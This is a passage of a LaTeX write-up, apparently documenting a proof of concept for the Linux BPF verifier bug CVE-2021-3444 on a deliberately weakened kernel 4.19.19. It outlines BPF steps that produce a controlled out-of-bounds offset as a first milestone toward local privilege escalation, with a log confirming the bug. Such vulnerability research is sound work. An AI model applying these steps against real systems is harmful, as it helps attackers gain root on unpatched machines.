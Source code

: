 Kernel version 4.19.19 was selected because the fix for CVE-2021-3444 was merged upstream in 5.12 and backported later. Critically, kernel 4.19 predates the \texttt{alu\_limit} pointer arithmetic sanitization introduced in 5.x kernels, making it the ideal target for demonstrating an unprivileged LPE. The kernel was configured with SMEP/SMAP and KPTI disabled (\texttt{nopti} boot parameter), enabling ret2usr exploitation.


\section{Proof of Concept (PoC)}

\subsection{Milestone 1: Demonstrate Bounds Confusion}

\textbf{Objective}
Prove that the BPF verifier's bounds tracking becomes stale after a 32-bit modulo operation, demonstrating that the runtime value differs from what the verifier tracks.

\textbf{Approach}
The BPF program:
\begin{enumerate}
    \item Loads \texttt{R0 = 0x00000001\_00000001} via \texttt{BPF\_LD\_IMM64}
    \item Sets \texttt{R1 = 0} as divisor
    \item Executes \texttt{w0 \%\%= w1} (32-bit modulo)
    \item Right-shifts \texttt{R0 >> 32} to extract the upper 32 bits
    \item Multiplies by a chosen factor to produce a controlled OOB offset
    \item Exfiltrates the result to a BPF result map
\end{enumerate}

\textbf{Results}

\begin{lstlisting}[style=log,caption={Milestone 1 output on vulnerable kernel 4.19.19}]
[+] BPF program LOADED (fd=5) - verifier accepted!

  result[0] (R0 after mod32) = 0x0000000000000001
  result[1] (R0 >> 32)       = 0x0000000000000000  <- upper bits ZEROED
  
[+] VULNERABILITY CONFIRMED: mod32 truncation creates
    verifier/runtime bounds mismatch
\end{lstlisting}

